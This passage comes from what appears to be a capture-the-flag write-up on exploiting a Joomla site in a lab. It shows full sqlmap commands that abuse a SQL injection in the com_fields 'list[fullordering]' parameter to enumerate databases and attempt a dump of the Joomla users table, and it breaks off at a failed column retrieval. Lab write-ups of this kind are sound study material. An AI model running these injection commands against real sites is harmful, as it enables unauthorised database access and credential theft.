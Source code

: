 ![Searchsploit result for the version of joomla](img/searchsploit_result.png)

---

### Attacking the database

The description of the exploit shows how this vulnerability can be abused with sqlmap. I run it with the arguments provided:

```
sqlmap -u “http://10.10.123.253/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

This leads to an enumeration of the existing databases:

![Database information gained by sqlmap](img/database_information.png)

The interesting things are user credentials of joomla, so let sqlmap dump these. The table name can be either taken out of the information_schema, or simply by checking the joomla documentation (https://docs.joomla.org/Tables/users)

```
sqlmap -u "http://10.10.123.253/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

Unfortunately, it is not as easy as hoped, sqlmap is unable to retrieve the columns:

![First hurdle](img/database_firstHurdle.png)
